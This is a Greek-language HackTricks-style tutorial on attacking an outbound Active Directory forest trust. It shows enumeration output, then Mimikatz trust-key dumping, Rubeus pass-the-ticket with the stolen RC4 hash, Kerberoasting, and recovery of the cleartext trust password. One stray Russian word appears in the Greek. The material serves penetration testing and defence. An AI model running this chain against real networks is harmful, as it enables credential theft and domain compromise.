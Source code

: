 # Εξωτερικό Δάσος Τομέα - Μονοκατεύθυνση (Εξόδου)

{{#include ../../banners/hacktricks-training.md}}

Σε αυτό το σενάριο **ο τομέας σας** **εμπιστεύεται** κάποιες **privileges** σε κύριο από **διαφορετικούς τομείς**.

## Αριθμητική

### Εμπιστοσύνη Εξόδου
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Επίθεση Λογαριασμού Εμπιστοσύνης

Μια ευπάθεια ασφαλείας υπάρχει όταν μια σχέση εμπιστοσύνης καθορίζεται μεταξύ δύο τομέων, που αναγνωρίζονται εδώ ως τομέας **A** και τομέας **B**, όπου ο τομέας **B** επεκτείνει την εμπιστοσύνη του στον τομέα **A**. Σε αυτή τη ρύθμιση, δημιουργείται ένας ειδικός λογαριασμός στον τομέα **A** για τον τομέα **B**, ο οποίος παίζει κρίσιμο ρόλο στη διαδικασία αυθεντικοποίησης μεταξύ των δύο τομέων. Αυτός ο λογαριασμός, που σχετίζεται με τον τομέα **B**, χρησιμοποιείται για την κρυπτογράφηση εισιτηρίων για την πρόσβαση σε υπηρεσίες μεταξύ των τομέων.

Η κρίσιμη πτυχή που πρέπει να κατανοηθεί εδώ είναι ότι ο κωδικός πρόσβασης και το hash αυτού του ειδικού λογαριασμού μπορούν να εξαχθούν από έναν Domain Controller στον τομέα **A** χρησιμοποιώντας ένα εργαλείο γραμμής εντολών. Η εντολή για την εκτέλεση αυτής της ενέργειας είναι:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Αυτή η εξαγωγή είναι δυνατή επειδή ο λογαριασμός, που αναγνωρίζεται με ένα **$** μετά το όνομά του, είναι ενεργός και ανήκει στην ομάδα "Domain Users" του τομέα **A**, κληρονομώντας έτσι τις άδειες που σχετίζονται με αυτή την ομάδα. Αυτό επιτρέπει σε άτομα να αυθεντικοποιούνται στον τομέα **A** χρησιμοποιώντας τα διαπιστευτήρια αυτού του λογαριασμού.

**Προειδοποίηση:** Είναι εφικτό να εκμεταλλευτεί κανείς αυτή την κατάσταση για να αποκτήσει πρόσβαση στον τομέα **A** ως χρήστης, αν και με περιορισμένες άδειες. Ωστόσο, αυτή η πρόσβαση είναι επαρκής για να εκτελέσει καταμέτρηση στον τομέα **A**.

Σε ένα σενάριο όπου το `ext.local` είναι ο τομέας εμπιστοσύνης και το `root.local` είναι ο εμπιστευμένος τομέας, θα δημιουργηθεί ένας λογαριασμός χρήστη με το όνομα `EXT$` εντός του `root.local`. Μέσω συγκεκριμένων εργαλείων, είναι δυνατό να εκφορτωθούν τα κλειδιά εμπιστοσύνης Kerberos, αποκαλύπτοντας τα διαπιστευτήρια του `EXT$` στο `root.local`. Η εντολή για να επιτευχθεί αυτό είναι:
```bash
lsadump::trust /patch
```
Ακολουθώντας αυτό, θα μπορούσε κανείς να χρησιμοποιήσει το εξαγόμενο κλειδί RC4 για να πιστοποιηθεί ως `root.local\EXT$` εντός του `root.local` χρησιμοποιώντας μια άλλη εντολή εργαλείου:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Αυτό το βήμα αυθεντικοποίησης ανοίγει τη δυνατότητα να καταμετρήσουμε και ακόμη και να εκμεταλλευτούμε υπηρεσίες εντός του `root.local`, όπως η εκτέλεση μιας επίθεσης Kerberoast για την εξαγωγή διαπιστευτηρίων λογαριασμού υπηρεσίας χρησιμοποιώντας:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Συλλογή καθαρού κωδικού εμπιστοσύνης

Στην προηγούμενη ροή χρησιμοποιήθηκε το hash εμπιστοσύνης αντί για τον **καθαρό κωδικό πρόσβασης** (που επίσης **εξήχθη από το mimikatz**).

Ο καθαρός κωδικός πρόσβασης μπορεί να αποκτηθεί μετατρέποντας την \[ CLEAR ] έξοδο από το mimikatz από δεκαεξαδικό και αφαιρώντας τα null bytes ‘\x00’:

![](<../../images/image (938).png>)

Μερικές φορές, κατά τη δημιουργία μιας σχέσης εμπιστοσύνης, ένας κωδικός πρέπει να πληκτρολογηθεί από τον χρήστη για την εμπιστοσύνη. Σε αυτή τη демонстрация, το κλειδί είναι ο αρχικός κωδικός εμπιστοσύνης και επομένως αναγνώσιμο από άνθρωπο. Καθώς το κλειδί κυκλώνει (30 ημέρες), ο καθαρός κωδικός δεν θα είναι αναγνώσιμος από άνθρωπο αλλά τεχνικά θα είναι ακόμα χρήσιμος.

Ο καθαρός κωδικός πρόσβασης μπορεί να χρησιμοποιηθεί για κανονική αυθεντικοποίηση ως ο λογαριασμός εμπιστοσύνης, μια εναλλακτική λύση για την αίτηση ενός TGT χρησιμοποιώντας το μυστικό κλειδί Kerberos του λογαριασμού εμπιστοσύνης. Εδώ, ερωτώντας το root.local από το ext.local για μέλη των Domain Admins:

![](<../../images/image (792).png>)

## Αναφορές

- [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{{#include ../../banners/hacktricks-training.md}}
